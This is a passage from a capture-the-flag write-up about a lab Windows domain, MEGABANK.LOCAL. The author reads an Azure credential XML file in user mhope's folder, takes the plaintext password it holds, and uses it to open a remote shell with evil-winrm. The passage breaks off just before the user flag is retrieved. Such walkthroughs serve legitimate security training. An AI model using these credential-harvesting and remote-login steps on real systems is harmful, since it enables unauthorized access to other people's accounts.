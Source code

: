 <br />

There is only one file called `azure.xml` inside `mhope's` directory.

Let's see its content:

<br />

```xml
❯ /usr/bin/cat azure.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs
```

<br />

We have a new password: `4n0therD4y@n0th3r$`.

As mentioned earlier, the file was located in `mhope's` directory, so we can try authenticating via `WinRM` as this user:

<br />

```bash
❯ evil-winrm -i MEGABANK.LOCAL -u mhope -p 4n0therD4y@n0th3r$
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```

<br />

And get the `user.txt` flag:

<br />
